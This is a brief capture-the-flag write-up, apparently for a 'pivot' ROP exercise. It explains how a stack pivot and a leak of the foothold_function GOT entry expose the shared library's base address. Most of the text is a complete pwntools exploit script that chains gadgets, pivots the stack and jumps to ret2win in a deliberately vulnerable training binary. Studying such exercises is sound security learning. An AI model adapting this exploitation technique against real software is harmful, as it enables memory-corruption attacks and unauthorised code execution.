


our input is limit so we cannot do a rop chain longer than 3 bytes

luckily, we got leaked a place to pivot to by the GODS (you will not question)




paired with a few convenient gadgets, we can leak the libpivot_base by leaking the foothold function with puts 

then, we can restart the pwnme function in our rop chain and call ret2win directly

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pivot")
exelib = ELF("./libpivot.so")

context.binary = exe
# context.log_level = "debug"

script = '''
b*pwnme+181
c
c
'''

def main():
    # r = gdb.debug(exe.path, gdbscript=script)
    r = process(exe.path)

    r.recvuntil("The Old Gods kindly bestow upon you a place to pivot: 0x")
    data=r.recvline()
    data=data[:12]

    pivot_addr=int(data,16)
    buffer=0x28*b"A"
    pop_rsp_pop_r13_pop_r14_pop_r15=0x0000000000400a2d
    pop_rdi=0x0000000000400a33
    puts_plt=exe.plt["puts"]
    foothold_got=exe.got["foothold_function"]
    foothold_plt=exe.plt["foothold_function"]
    pwnme=exe.sym["pwnme"]

    payload=flat(
        0,
        0,
        0,
        foothold_plt,
        pop_rdi,
        foothold_got,
        puts_plt,
        pwnme
    )

    time.sleep(0.1)
    r.send(payload)

    payload=flat(
        buffer,
        pop_rsp_pop_r13_pop_r14_pop_r15,
        pivot_addr
    )

    time.sleep(0.1)
    r.send(payload)

    r.recvuntil("foothold_function(): Check out my .got.plt entry to gain a foothold into libpivot\n")

    data=r.recvline()
    data=data[:6]

    lib_foot=u64(data.ljust(8,b"\x00"))

    print(hex(lib_foot))

    lib_base=lib_foot-exelib.sym["foothold_function"]
    win=lib_base+exelib.sym["ret2win"]

    payload=flat(
        0
    )

    time.sleep(0.1)
    r.send(payload)

    payload=flat(
        buffer,
        win
    )

    time.sleep(0.1)
    r.send(payload)

    r.interactive()

if __name__ == "__main__":
    main()

```